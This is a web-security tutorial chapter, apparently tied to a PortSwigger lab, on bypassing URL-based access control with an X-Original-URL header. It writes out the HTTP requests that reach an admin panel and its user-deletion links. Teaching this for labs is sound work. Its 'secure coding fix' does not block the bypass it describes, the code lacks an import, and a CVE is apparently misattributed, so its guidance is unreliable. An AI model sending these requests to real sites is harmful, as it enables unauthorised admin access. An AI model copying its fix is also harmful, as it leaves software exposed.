


## Access Control Vulnerabilities

Access control vulnerabilities are among the most critical issues in web security. They allow unauthorized users to gain access to sensitive resources or perform actions that they should not be permitted to do. One such vulnerability is URL-based access control, which can be circumvented through various techniques. This chapter will delve deep into the mechanics of URL-based access control vulnerabilities, their exploitation, and how to defend against them.

### Background Theory

Access control is a fundamental aspect of web security. It ensures that only authorized users can access specific resources or perform certain actions. Typically, access control is implemented using authentication mechanisms (like username/password) and authorization rules (like role-based access control).

However, when validation is performed solely on the client-side (front-end), it becomes vulnerable to manipulation. In the context of URL-based access control, this means that if the application relies on a header like `X-Original-URL` to determine the resource to be accessed, an attacker can manipulate this header to bypass access controls.

### Understanding the Vulnerability

#### What is URL-Based Access Control?

URL-based access control refers to the practice of using URLs to determine which resources a user can access. For example, an application might have different URLs for the admin panel and regular user pages. The server checks the URL to decide whether the user is allowed to access the requested resource.

#### Why is Front-End Validation Insufficient?

Front-end validation is often used to improve user experience by providing immediate feedback. However, it is inherently insecure because it can be easily bypassed by manipulating the request. For instance, if the application uses JavaScript to validate the URL and then sends a request with a custom header like `X-Original-URL`, an attacker can modify this header to point to a restricted resource.

### Real-World Example

A recent example of a URL-based access control vulnerability is CVE-2021-3594, which affected several versions of the Atlassian Jira software. The vulnerability allowed attackers to bypass access controls by manipulating the `X-Forwarded-Host` header. This allowed unauthorized users to access sensitive information and perform actions they were not supposed to.

### Exploitation Steps

Let's walk through the steps to exploit a URL-based access control vulnerability, using the example provided in the lecture.

#### Step 1: Identify the Restricted Resource

First, identify the resource that is restricted. In this case, the admin panel is the restricted resource. The original request was `/admin`, and removing this completely results in an "access denied" message rather than a "not found" message. This indicates that the `/admin` directory exists and is protected.

```http
GET /admin HTTP/1.1
Host: example.com
```

Response:

```http
HTTP/1.1 403 Forbidden
Content-Type: text/html
Content-Length: 148

<!DOCTYPE html>
<html>
<head>
    <title>Access Denied</title>
</head>
<body>
    <h1>Access Denied</h1>
    <p>You do not have permission to view this resource.</p>
</body>
</html>
```

#### Step 2: Craft the Request with Custom Header

Next, craft a request that includes a custom header (`X-Original-URL`) to bypass the access control. The idea is to trick the server into thinking the request is coming from a valid source.

```http
GET / HTTP/1.1
Host: example.com
X-Original-URL: /admin
```

Response:

```http
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 148

<!DOCTYPE html>
<html>
<head>
    <title>Admin Panel</title>
</head>
<body>
    <h1>Welcome to the Admin Panel</h1>
    <ul>
        <li><a href="/admin/users">User Management</a></li>
        <li><a href="/admin/settings">Settings</a></li>
    </ul>
</body>
</html>
```

#### Step 3: Access Sensitive Information

Once the admin panel is accessed, the attacker can navigate through the sensitive sections. For example, accessing the user management section might reveal usernames and endpoints to delete users.

```http
GET /admin/users HTTP/1.1
Host: example.com
X-Original-URL: /admin/users
```

Response:

```http
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 148

<!DOCTYPE html>
<html>
<head>
    <title>User Management</title>
</head>
<body>
    <h1>User Management</h1>
    <table>
        <tr>
            <th>Username</th>
            <th>Delete</th>
        </tr>
        <tr>
            <td>Carlos</td>
            <td><a href="/admin/delete_user?username=Carlos">Delete</a></td>
        </tr>
        <tr>
            <td>Alice</td>
            <td><a href="/admin/delete_user?username=Alice">Delete</a></td>
        </tr>
    </table>
</body>
</html>
```

### How to Prevent / Defend

#### Detection

To detect URL-based access control vulnerabilities, you can use automated tools like Burp Suite or OWASP ZAP. These tools can help identify requests that include suspicious headers like `X-Original-URL`.

#### Prevention

1. **Server-Side Validation**: Always perform validation on the server-side. Client-side validation should be used only for improving user experience, not for enforcing security policies.

2. **Secure Headers**: Ensure that headers like `X-Original-URL` are not trusted blindly. Validate these headers on the server-side to ensure they point to legitimate resources.

3. **Role-Based Access Control**: Implement role-based access control (RBAC) to ensure that only authorized users can access specific resources. This can be enforced using session tokens and user roles stored on the server.

4. **Logging and Monitoring**: Log all access attempts and monitor for unusual patterns. This can help detect and respond to potential attacks.

#### Secure Coding Fixes

Here is an example of how to implement secure coding practices to prevent URL-based access control vulnerabilities.

**Vulnerable Code**

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def index():
    original_url = request.headers.get('X-Original-URL', '/')
    return redirect(original_url)

if __name__ == '__main__':
    app.run()
```

**Fixed Code**

```python
from flask import Flask, request, abort

app = Flask(__name__)

@app.route('/')
def index():
    original_url = request.headers.get('X-Original-URL', '/')
    if not original_url.startswith('/'):
        abort(403)
    return redirect(original_url)

if __name__ == '__main__':
    app.run()
```

In the fixed code, we check if the `X-Original-URL` starts with a `/`. If it does not, we return a 403 Forbidden error. This prevents attackers from manipulating the header to point to arbitrary resources.

### Mermaid Diagrams

#### Request Flow Diagram



#### Access Control Mechanism Diagram



### Practice Labs

For hands-on practice with URL-based access control vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a module on access control vulnerabilities, including URL-based access control.
- **OWASP Juice Shop**: Provides a variety of security challenges, including access control vulnerabilities.
- **DVWA (Damn Vulnerable Web Application)**: Contains several access control vulnerabilities that can be exploited and fixed.

These labs provide a controlled environment to practice identifying and exploiting URL-based access control vulnerabilities, as well as implementing secure coding practices to prevent them.

### Conclusion

URL-based access control vulnerabilities are a significant threat to web applications. By understanding the mechanics of these vulnerabilities, their exploitation methods, and how to defend against them, you can significantly enhance the security of your applications. Always prioritize server-side validation and implement robust access control mechanisms to protect sensitive resources.

---
<!-- nav -->
[[Web Security (PortSwigger)/12-Access Control Vulnerabilities/06-Lab 5 URL based access control can be circumvented/01-Introduction to Access Control Vulnerabilities|Introduction to Access Control Vulnerabilities]] | [[Web Security (PortSwigger)/12-Access Control Vulnerabilities/06-Lab 5 URL based access control can be circumvented/00-Overview|Overview]] | [[03-Background Knowledge on Access Control Vulnerabilities|Background Knowledge on Access Control Vulnerabilities]]
